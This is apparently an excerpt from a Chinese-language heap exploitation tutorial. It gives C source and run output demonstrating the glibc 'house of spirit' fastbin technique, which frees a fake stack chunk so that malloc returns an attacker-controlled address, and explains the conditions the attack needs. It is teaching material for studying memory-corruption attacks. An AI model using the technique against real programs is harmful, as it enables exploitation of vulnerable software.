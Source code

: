 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>

int main() {
    malloc(1);

    fprintf(stderr, "We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.\n");
    unsigned long long *a, *b;
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "The first one:  %p\n", &fake_chunks[0]);
    fprintf(stderr, "The second one: %p\n", &fake_chunks[4]);

    fake_chunks[1] = 0x20; // the size
    fake_chunks[5] = 0x1234; // nextsize

    fake_chunks[2] = 0x4141414141414141LL;
    fake_chunks[6] = 0x4141414141414141LL;

    fprintf(stderr, "Overwritting our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[0]);
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[0], &fake_chunks[2]);
    b = malloc(0x10);
    fprintf(stderr, "malloc(0x10): %p\n", b);
    b[0] = 0x4242424242424242LL;
}
\end{verbatim}

编译运行之，结果如下：
\begin{verbatim}
$ gcc -g house_of_spirit.c 
$ ./a.out 
We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.
The first one:  0x7ffc782dae00
The second one: 0x7ffc782dae20
Overwritting our pointer with the address of the fake region inside the fake first chunk, 0x7ffc782dae00.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffc782dae00, which will be 0x7ffc782dae10!
malloc(0x10): 0x7ffc782dae10
\end{verbatim}

\verb+ house-of-spirit+是一种对\verb+ fastbins+的攻击方法，即通过构造\verb+ fake chunk+，然后将其\verb+ free+掉，就可以在下一次\verb+ malloc+时返回\verb+ fake chunk+的地址，即一段我们可控的区域。其中，使用\verb+ house-of-spirit+技术的条件一是要使\verb+ free+的参数可控，以便指向我们想要控制的地址，其二是想要控制的地址我们应有写权限，以便提前伪造\verb+ fake chunk+。另外，这种攻击手段既可以利用堆溢出搞事情，也可以利用栈溢出搞事情。

